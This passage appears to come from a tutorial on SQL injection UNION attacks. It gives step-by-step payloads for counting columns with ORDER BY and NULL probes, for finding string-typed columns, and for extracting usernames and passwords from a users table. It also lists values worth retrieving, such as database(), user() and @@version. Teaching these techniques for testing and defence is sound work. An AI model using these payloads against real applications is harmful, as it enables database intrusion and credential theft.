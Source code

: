 ' ORDER BY 1--

' ORDER BY 2--

' ORDER BY 3--

# and so on until an error occurs

(The last value before the error would indicate the number of columns.)

The second one (most common and effective), would involve submitting a series of UNION SELECT payloads with a number of NULL values:

' UNION SELECT NULL--

' UNION SELECT NULL,NULL--

' UNION SELECT NULL,NULL,NULL--

# until the error occurs

No error = number of NULL matches the number of columns.

    Finding columns with a useful data type in an SQL injection UNION attack

Generally, the interesting data that you want to retrieve will be in string form. Having already determined the number of required columns, (for example 4) you can probe each column to test whether it can hold string data by replacing one of the UNION SELECT payloads with a string value. In case of 4 you would submit:

' UNION SELECT 'a',NULL,NULL,NULL--

' UNION SELECT NULL,'a',NULL,NULL--

' UNION SELECT NULL,NULL,'a',NULL--

' UNION SELECT NULL,NULL,NULL,'a'--

No error = data type is useful for us (string).

    Using an SQL injection UNION attack to retrieve interesting data

When you have determined the number of columns and found which columns can hold string data, you can finally start retrieving interesting data.

Suppose that:

    The first two steps showed exactly two existing columns with useful datatype.
    The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the user's table by submitting the input:

' UNION SELECT username, password FROM users --

Here's a small list of thing you'd want to retrieve:

    database()
    user()
    @@version
    username
    password
    table_name
    column_name
